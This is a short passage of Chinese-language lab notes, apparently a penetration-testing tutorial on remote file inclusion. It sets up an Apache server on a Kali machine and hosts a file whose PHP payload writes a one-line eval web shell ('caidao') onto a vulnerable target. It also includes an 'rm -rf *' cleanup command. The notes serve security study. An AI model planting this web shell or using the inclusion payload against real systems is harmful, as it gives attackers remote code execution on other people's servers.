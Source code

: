 清空图片

```sh
rm -rf *
```

# 远程包含

在kali上开启服务器

```
systemctl start apache2
ip a
192.168.83.145
```

在浏览器里打开，服务器启动成功

![image-20201112114115303](71、文件包含漏洞/image-20201112114115303.png)

默认路径 

```sh
/var/www/html/
```

在该目录下创建文件 1.txt  内容如下

sudo vi 1.txt

```sh
<?fputs(fopen("shell.php","w"),'<?php eval($_POST[caidao]);?>')?>
```

浏览器访问

http://192.168.83.145/1.txt

包含漏洞
